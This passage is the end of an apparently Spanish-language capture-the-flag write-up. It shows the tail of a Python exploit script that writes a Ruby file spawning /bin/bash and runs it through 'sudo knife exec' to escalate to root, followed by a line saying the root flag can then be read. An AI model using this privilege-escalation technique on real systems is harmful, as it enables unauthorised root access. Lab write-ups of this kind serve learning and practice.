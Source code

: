 ```python
			
			# Escalada de privilegios
			payload = b'''echo -e "#\!/usr/bin/ruby -w\n\nsystem('/bin/bash')" > k.rb'''
			shell.sendline(payload)


			execute_payload = b'sudo /usr/bin/knife exec k.rb'
			shell.sendline(execute_payload)


			# Interactive shell
			shell.interactive()
	
	else:
		# Usage
		print("Usage: " + sys.argv[0] + " <http://RHOST>" + " <LHOST>")


```

<br>

<img src="https://i.imgur.com/013KmZf.png" width=700>

Veremos que obtenemos una shell como el usuario root y podremos leer la flag root.txt en el directorio /root.